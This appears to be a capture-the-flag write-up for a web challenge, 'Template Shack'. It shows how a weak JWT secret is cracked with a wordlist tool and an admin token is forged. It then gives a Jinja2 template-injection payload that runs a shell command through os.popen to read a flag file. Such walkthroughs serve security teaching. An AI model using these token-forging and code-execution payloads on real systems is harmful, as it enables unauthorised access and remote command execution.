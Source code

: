 ```yaml
---
layout: post
title: "Template Shack"
author: "INXS_JOY"
tags: ['Web']
---
```


Check out the coolest web templates online!

Connect here:
[http://jh2i.com:50023](http://jh2i.com:50023)

## Solution

* Having a look at the request header of the webpage, we notice that there is a JWT token in a cookie.

```
GET / HTTP/1.1
Host: jh2i.com:50023
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

* Trying to brute force the secret key of the JWT token using this [tool](https://github.com/lmammino/jwt-cracker), we get the secret key: supersecret.

```
Command: 

python3 crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y /usr/share/wordlists/rockyou.txt

Output:

Cracking JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y
291167it [00:26, 11150.29it/s]Found secret key: supersecret
291167it [00:26, 10911.29it/s]

```

* Now that we have the secret key for the JWT token, let's go to [jwt.io](https://jwt.io) and set the user name parameter to admin. Get the computed JWT and paste it into cookie token of the GET request /admin.

```
GET /admin HTTP/1.1
Host: jh2i.com:50023
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.Ykqid4LTnSPZtoFb11H-_2q-Vo32g4mLpkEcajK0H7I
Upgrade-Insecure-Requests: 1
```

* The /admin request gets us to a complicated looking admin panel where most of the buttons don't work but clicking on the charts or tables shows us a custom 404 Page. This can often lead to SSTI in Flask Web Applications and we can test this by sending /admin/\{\{2+2\}\}

> Pro Security tip: Don't reinvent the wheel. xD

![alt-text]({{site.baseurl}}/assets/Template-Shack/404.png)

* Using `/admin/\{\{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()\}\}` payload, we are able to read the flag.txt file which was present in the current directory. You can read more about Jinga SSTI [here](https://www.onsecurity.co.uk/blog/server-side-template-injection-with-jinja2)

## Flag
```
flag{easy_jinja_SSTI_RCE}
```
